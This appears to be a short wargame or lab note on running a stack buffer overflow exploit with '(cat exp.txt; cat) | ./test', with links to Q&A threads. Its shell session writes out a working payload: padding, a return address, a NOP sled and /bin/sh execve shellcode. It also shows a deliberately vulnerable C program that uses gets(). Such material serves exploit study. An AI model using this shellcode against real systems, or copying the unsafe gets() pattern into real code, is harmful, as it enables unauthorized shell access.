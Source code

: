 # BOF_Using_file

- [Using (cat $file; cat) to run a simple BOF exploit](https://security.stackexchange.com/questions/155844/using-cat-file-cat-to-run-a-simple-bof-exploit)  

- [Using cat to overcome 'Stack smash detected'](https://security.stackexchange.com/questions/112009/using-cat-to-overcome-stack-smash-detected)

```assembly
[gremlin@localhost gremlin]$ ls
cobalt  cobolt  cobolt.c  core  exp.txt  test  test.c  tmp
[gremlin@localhost gremlin]$ bash2
[gremlin@localhost gremlin]$ cat exp.txt
AAAAAAAAAAAAAAAA
[gremlin@localhost gremlin]$ python -c 'print"A"*20+"\xcc\xfa\xff\xbf"+"\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"' > exp.txt
[gremlin@localhost gremlin]$ cat exp.txt
AAAAAAAAAAAAAAAAAAAAͺÿ¿1󿿐h//shh/bin⏓ኂ°
                                      ̀ 
[gremlin@localhost gremlin]$ cat test.c 
#include<stdio.h>
int main(){
char buffer[20];
gets(buffer);
puts(buffer);
puts("hihihihihihihihihihihihi");
return 0;
}
[gremlin@localhost gremlin]$ cat exp.txt; cat | ./test
AAAAAAAAAAAAAAAAAAAAͺÿ¿1󿿐h//shh/bin⏓ኂ°
                                      ̀ 


hihihihihihihihihihihihi

Broken pipe
[gremlin@localhost gremlin]$ exit 
exit
[gremlin@localhost gremlin]$ exit
logout
```


- Like this?


https://stackoverflow.com/questions/11900578/how-execute-cat-filename-in-python